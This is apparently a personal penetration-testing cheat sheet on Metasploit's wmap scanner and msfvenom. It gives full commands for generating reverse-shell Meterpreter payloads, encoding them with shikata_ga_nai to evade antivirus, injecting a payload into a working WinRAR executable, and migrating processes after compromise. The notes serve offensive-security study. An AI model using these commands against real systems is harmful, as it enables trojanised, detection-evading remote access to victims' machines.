 - `msf6 > load wmap`
- `msf6 > wmap_sites -a <ip>` - adding our target to our `msf6 > services`
- `msf6 > wmap_targets -t http://<ip>/` - defining target websites
- `msf6 > wmap_run -t` - shows all useful modules for enumeration (only modules)
- `msf6 > wmap_run -e` - does actual scan (execution of modules)
- `msf6 > wmap_vulns -l` - found vulnerabilities

## Msfvenom (Payload generator)

**Client-side** attacks are forcing victims to execute a malicious payload. Social engineering is included.

Service & host based attacks are about exploiting services and inherent vulnerabilitites, but client-side attacks are about executing malicious payloads on target hosts.

Msfvenom is used for generating payloads, and it is a combination of 2 tools. Msfpayload and Msfencode - Msfvenom, then it connects back to our handler or listener.

- windows/x64/meterpreter/reverse_tcp - Staged paylaod
- windows/x64/meterpreter_reverse_tcp - Non-staged payload

OR
I am wrong?

- `msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<local.ip> LPORT=<local.port> -f exe -o shell.exe` - 32 bit payload (not 86) (-a = architecture)
- `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<local.ip> LPORT=<local.port> -f elf -o shell.elf` - 64 bit linux payload
- .elf means Executable and Linkable Format - Linux payload extension
- `msf6 > use multi/handler` or `python -m http.server 80`
    - `set payload <the_same_one>`
    - `set LPORT <same>`
    - `set LHOST <same>`
- RUNning the payload

*******`windows/meterpreter/reverse_tcp` - by default it is x86 (so 32 bit)

### Encoding

Encoding is used for hiding our payloads or shellcode from AV (antivirus) detection. AV solutions use signature based detection (they have a database of malicious code signatures, and they compare it)

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local.ip> LPORT=<local.port> -e x86/shikata_ga_nai -i 10 -o shell.exe` - 32 bit windows payload with a 32 bit encoder, **iterated** 10 times (encoded 10 times again and again, one after one)

### Injecting

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -x wrar.exe -k -f exe -o winrar.exe` - generates a payload, encodes it for 10 times, `-x` then injects it inside of a winrar (wrar.exe) executable, `-k` keeps the same functionality of the executable (when you click it, it behaves like real winrar, but can give errors), saves as winrar.exe.
- `meterpreter > run post/windows/manage/migrate` - migrating to another process for not being terminated in the future or switching from x86 to x64
